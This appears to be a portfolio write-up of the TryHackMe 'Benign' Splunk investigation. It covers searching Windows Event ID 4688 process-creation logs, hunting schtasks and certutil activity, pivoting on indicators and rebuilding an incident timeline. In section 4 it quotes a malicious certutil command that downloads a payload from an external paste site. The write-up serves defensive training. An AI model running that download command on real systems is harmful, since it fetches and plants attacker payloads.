




# 🔎 TryHackMe Benign — SOC Investigation

## Overview

This project documents my investigation of the **TryHackMe Benign** challenge using **Splunk** and **Windows Event Logs**. The investigation focused on analyzing Windows process creation events to identify anomalous user behavior, scheduled-task activity, LOLBin abuse, payload delivery, and command-and-control activity.

|                      |                                                                             |
| -------------------- | --------------------------------------------------------------------------- |
| **Platform**         | TryHackMe                                                                   |
| **SIEM**             | Splunk                                                                      |
| **Data Source**      | Windows Security Event Logs                                                 |
| **Primary Event ID** | 4688 — Process Creation                                                     |
| **Focus Areas**      | Threat Hunting, Process Analysis, LOLBin Detection, Timeline Reconstruction |

> **Portfolio Note:** This write-up focuses on my investigation methodology, queries, observations, and lessons learned rather than simply providing challenge answers.

---

## 🎯 Investigation Goals

The objectives of this investigation were to:

* Identify suspicious or anomalous user activity.
* Analyze Windows process-creation events.
* Investigate scheduled-task activity.
* Identify abuse of legitimate Windows utilities.
* Trace suspicious payload delivery.
* Investigate potential command-and-control activity.
* Build an incident timeline from the available telemetry.

---

# 1. Validating the Log Schema

I began by examining Windows process-creation events in Splunk.

An important early lesson was that I should **inspect the raw event structure before assuming field names**. My initial query did not return the expected results because the dataset used `EventID` rather than the field name I initially expected.

Examining a raw event revealed several fields that would become important throughout the investigation:

* `EventID`
* `UserName`
* `HostName`
* `ProcessName`
* `CommandLine`



*Figure 1 — Raw Windows Event ID 4688 showing process-creation telemetry.*

### SPL Query

```spl
index=win_eventlogs EventID=4688
| stats count by UserName
| sort UserName
```

### What I Learned

Before constructing complex searches, I should verify how the data is actually structured and parsed. Field names can differ between environments, SIEM configurations, and datasets.

---

# 2. Identifying Anomalous User Activity

After understanding the available fields, I used process-creation events to enumerate usernames and compare observed accounts against the users expected within the environment.

This allowed unusual account activity to stand out from the baseline.


*Figure 2 — Identifying anomalous account activity within the environment.*

During this step, I also learned the importance of distinguishing between two fields:

| Field      | Meaning                                 |
| ---------- | --------------------------------------- |
| `UserName` | The account executing the process       |
| `HostName` | The endpoint where the process executed |

A user appearing on a workstation does **not** necessarily mean that workstation belongs to that user or department.

This distinction becomes particularly important when investigating potential lateral movement or compromised credentials.

---

# 3. Investigating Scheduled Task Activity

I next investigated executions of:

```text
schtasks.exe
```

`schtasks.exe` is a legitimate Windows utility used to create, modify, query, and execute scheduled tasks.

### SPL Query

```spl
index=win_eventlogs EventID=4688 ProcessName="*schtasks.exe"
| table _time HostName UserName ProcessName CommandLine
| sort _time
```



*Figure 3 — Process-creation events involving schtasks.exe.*

Scheduled tasks are common in legitimate Windows administration, but they can also be abused by attackers for **persistence** or automated execution.

Because of this, simply seeing `schtasks.exe` is not enough to determine malicious activity. The surrounding context matters:

* Who executed it?
* What host executed it?
* What command-line arguments were supplied?
* What happened immediately before and after execution?

---

# 4. Detecting LOLBin Abuse

One of the strongest suspicious events identified during the investigation involved:

```text
certutil.exe
```

`certutil.exe` is a legitimate Microsoft Windows utility primarily associated with certificate management.

However, legitimate system binaries can sometimes be abused by attackers to perform actions outside their normal administrative purpose. This technique is commonly referred to as **Living Off the Land**.

In this case, the command line showed `certutil.exe` being used to retrieve a file from an external location.

### Observed Command

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```



*Figure 4 — Windows Event ID 4688 showing certutil.exe being used to retrieve benign.exe.*

### Why This Was Suspicious

A single process-creation event provided multiple investigation pivots:

| Indicator     | Investigative Value                              |
| ------------- | ------------------------------------------------ |
| `UserName`    | Identifies who executed the command              |
| `HostName`    | Identifies the affected endpoint                 |
| `ProcessName` | Identifies the executable                        |
| `CommandLine` | Reveals what the executable was instructed to do |
| URL           | Provides an external infrastructure indicator    |
| Filename      | Provides an additional endpoint indicator        |
| Timestamp     | Allows surrounding activity to be investigated   |

This demonstrated why **command-line logging is extremely valuable** during endpoint investigations.

---

# 5. Payload Identification

Analysis of the process command line identified the downloaded payload as:

```text
benign.exe
```



*Figure 5 — Identification of the downloaded payload during the investigation.*

Once the filename was known, I could pivot on it across the entire dataset.

### SPL Query

```spl
index=win_eventlogs "benign.exe"
| table _time HostName UserName ProcessName CommandLine
| sort _time
```

This demonstrated an important threat-hunting workflow:

> **Find an indicator → Pivot on the indicator → Identify related activity → Expand the timeline**

Instead of repeatedly searching the entire dataset, each confirmed indicator can lead to additional evidence.

---

# 6. Timeline Reconstruction

After identifying a high-confidence suspicious event, I narrowed the investigation around the associated:

* User
* Host
* Timestamp
* Process
* Filename

### SPL Query

```spl
index=win_eventlogs HostName="HR_01" UserName="haroon"
earliest="03/04/2022:10:38:00" latest="03/04/2022:11:30:00"
| table _time EventID ProcessName CommandLine
| sort _time
```

This allowed me to stop thinking about individual logs and instead reconstruct the activity chronologically.

### Investigation Flow

```text
Suspicious Process Execution
          ↓
     Payload Download
          ↓
     Payload Execution
          ↓
    Follow-On Activity
          ↓
   C2 Communication
```

Timeline reconstruction made it easier to understand **how individual events were connected** rather than treating each log entry independently.

---

# 🔍 Splunk Techniques Practiced

| SPL Technique             | Purpose                                        |
| ------------------------- | ---------------------------------------------- |
| `stats count by UserName` | Establish user activity and identify anomalies |
| `table`                   | Display only investigation-relevant fields     |
| `sort _time`              | Reconstruct activity chronologically           |
| `EventID=4688`            | Focus on Windows process creation              |
| `ProcessName=`            | Hunt for specific executables                  |
| Filename searches         | Pivot using discovered indicators              |
| `HostName=`               | Focus investigation on an affected endpoint    |
| `UserName=`               | Follow activity associated with an account     |
| `earliest` / `latest`     | Restrict searches to an investigation window   |

---

# 🧠 Potential MITRE ATT&CK Mapping

Based on the behaviors observed during the investigation, some activity could potentially correspond with the following ATT&CK techniques:

| Observed Behavior                          | Potential MITRE ATT&CK Technique                   |
| ------------------------------------------ | -------------------------------------------------- |
| Payload transfer using a Windows utility   | **T1105 — Ingress Tool Transfer**                  |
| Scheduled-task activity                    | **T1053.005 — Scheduled Task/Job: Scheduled Task** |
| Command execution                          | **T1059 — Command and Scripting Interpreter**      |
| External command-and-control communication | **T1071 — Application Layer Protocol**             |

> These mappings are provided as investigative context. Exact ATT&CK classification depends on the evidence available and how the technique was implemented.

---

# 🛠️ Skills Demonstrated

Through this investigation, I practiced:

* Splunk SPL
* SIEM log analysis
* Windows Event Log analysis
* Windows Event ID 4688 analysis
* Process and command-line analysis
* Threat hunting
* LOLBin identification
* Indicator pivoting
* Suspicious account investigation
* Timeline reconstruction
* Basic MITRE ATT&CK mapping
* Incident investigation methodology

---

# 📚 Key Takeaways

1. **Inspect raw events first.** Understanding the available fields prevents wasted time troubleshooting incorrect searches.

2. **Event ID 4688 provides valuable endpoint visibility.** Process name, user, host, timestamp, and command-line data can reveal significant activity.

3. **Command-line arguments provide critical context.** The executable alone may appear legitimate while its arguments reveal suspicious behavior.

4. **Legitimate tools can be abused.** The presence of a trusted Windows binary does not automatically mean the activity is benign.

5. **User and host context are different.** `UserName` identifies who executed something, while `HostName` identifies where it occurred.

6. **Indicators create investigation pivots.** Users, hosts, filenames, processes, URLs, and timestamps can all lead to related evidence.

7. **Build a timeline.** Understanding the sequence of events is more valuable than examining logs individually.

---

# 📝 Analyst Reflection

This lab strengthened my ability to investigate Windows endpoint activity using Splunk.

I practiced analyzing **Windows Event ID 4688**, validating SIEM field names, identifying anomalous account activity, investigating scheduled tasks, recognizing LOLBin abuse, analyzing command-line arguments, and pivoting from suspicious events to related activity.

My biggest takeaway was learning to approach the investigation as a **chain of evidence rather than a series of challenge questions**.

Once I identified a high-confidence suspicious event, the associated user, host, process, filename, URL, and timestamp became pivots that could be used to reconstruct the broader activity.

---

## ⚠️ Disclaimer

This investigation was performed in the authorized **TryHackMe Benign** training environment for educational and professional development purposes.
